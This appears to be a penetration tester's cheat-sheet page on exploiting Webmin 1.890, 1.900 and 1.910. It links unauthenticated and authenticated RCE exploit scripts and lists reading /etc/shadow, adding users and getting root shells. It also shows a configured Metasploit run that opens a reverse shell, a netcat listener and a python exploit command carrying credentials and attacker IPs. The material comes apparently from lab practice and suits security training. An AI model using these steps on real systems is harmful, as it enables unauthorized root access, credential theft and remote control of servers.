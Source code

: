 # Webmin

### Webmin 1.8.90

* MiniServ 1.890 (Webmin httpd)
* https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890\_exploit.py
* Read /etc/shadow
* Add user
* Reverse Shells
* Read the config files
* Will run as root

### Webmin 1.900&#x20;

* MiniServ 1.900 (Webmin httpd)
* Requires credentials in order to exploit
* can use a metasploit module once credentials are obtained&#x20;

```
exploit/linux/http/webmin_packageup_rce
PASSWORD   Password6543     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.1.17      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using
                                         -metasploit.html
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME   admin            yes       Webmin Username

cmd/unix/reverse_perl
LHOST  10.10.14.2       yes       The listen address (an interface may be specified)
   LPORT  8888             yes       The listen port

run

[*] Started reverse TCP handler on 10.10.14.2:8888 
[+] Session cookie: bda1415ad657230f23aac213aa96a878
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.2:8888 -> 10.10.110.3:10784) at 2024-04-13 21:21:53 -0400
```

### Webmin Version 1.910 - Privilege Escalation

* Authenticated
* https://github.com/roughiz/Webmin-1.910-Exploit-Script
* Start your virtual env

```
source venv/bin/activate
```

* start your listener

```
nc -nlvp 443
```

* Send it

```
python2 webmin_exploit.py --rhost 10.129.2.1 --rport 10000 --lhost 10.10.14.76 --lport 443 -u Matt -p computer2008 -s True
```
